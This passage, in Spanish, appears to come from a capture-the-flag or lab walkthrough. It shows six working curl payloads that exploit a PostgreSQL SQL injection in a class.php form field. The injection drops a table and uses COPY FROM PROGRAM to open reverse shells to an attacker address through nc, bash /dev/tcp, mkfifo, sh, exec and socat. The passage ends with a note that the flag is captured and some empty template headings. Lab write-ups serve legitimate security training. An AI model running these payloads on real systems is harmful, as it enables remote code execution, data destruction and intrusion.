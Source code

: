 ``` 
```
EL payload con curl queda definido asi: 
- (**nc.traditional**)
```
curl -X POST "http://192.168.193.49/class.php" -d "weight=89&height='%3bDROP+TABLE+IF+EXISTS+commandexec%3bCREATE+TABLE+commandexec(data+text)%3bCOPY+commandexec+FROM+PROGRAM+'/usr/bin/nc.traditional+-e+/bin/sh+192.168.45.185+4444'%3b--&age=24&gender=Male&email=test%40duckman.com"
```
- (**bash**)
```
curl -X POST "http://192.168.193.49/class.php" \
-d "weight=89&height=%27%3bDROP%20TABLE%20IF%20EXISTS%20commandexec%3bCREATE%20TABLE%20commandexec(data%20text)%3bCOPY%20commandexec%20FROM%20PROGRAM%20%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.45.185/4444%200%3E%261%22%27%3b--&age=24&gender=Male&email=test%40duckman.com"
```
- (**mkfifo**)
```
curl -X POST "http://192.168.193.49/class.php" \
-d "weight=89&height=%27%3bDROP%20TABLE%20IF%20EXISTS%20commandexec%3bCREATE%20TABLE%20commandexec(data%20text)%3bCOPY%20commandexec%20FROM%20PROGRAM%20%27mkfifo%20/tmp/f%3b%20cat%20/tmp/f%20%7C%20/bin/sh%20-i%202%3E%261%20%7C%20nc%20192.168.45.185%204444%20%3E%20/tmp/f%27%3b--&age=24&gender=Male&email=test%40duckman.com"
```
- (**sh y /dev/tcp**) : depende del sistema, puede fallar.
```
curl -X POST "http://192.168.193.49/class.php" \
-d "weight=89&height=%27%3bDROP%20TABLE%20IF%20EXISTS%20commandexec%3bCREATE%20TABLE%20commandexec(data%20text)%3bCOPY%20commandexec%20FROM%20PROGRAM%20%27sh%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/192.168.45.185/4444%200%3E%261%22%27%3b--&age=24&gender=Male&email=test%40duckman.com"
```
- (**exec y /dev/tcp**) : depende del sistema, puede fallar.
```
curl -X POST "http://192.168.193.49/class.php" \
-d "weight=89&height=%27%3bDROP%20TABLE%20IF%20EXISTS%20commandexec%3bCREATE%20TABLE%20commandexec(data%20text)%3bCOPY%20commandexec%20FROM%20PROGRAM%20%27sh%20-c%20%22exec%203%3E%26/dev/tcp/192.168.45.185/4444%3bcat%20<&3%20|%20sh%20>&3%202>&3%22%27%3b--&age=24&gender=Male&email=test%40duckman.com"
```
- (** socat **) : depende del sistema, puede fallar.
```
curl -X POST "http://192.168.193.49/class.php" \
-d "weight=89&height=%27%3bDROP%20TABLE%20IF%20EXISTS%20commandexec%3bCREATE%20TABLE%20commandexec(data%20text)%3bCOPY%20commandexec%20FROM%20PROGRAM%20%27socat%20TCP%3a192.168.45.185%3a4444%20EXEC%3a%2fbin%2fsh%2cpty%2cstderr%2csigint%2csane%27%3b--&age=24&gender=Male&email=test%40duckman.com"
```
Una vez dentro obtenemos el flag como es habitual.
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

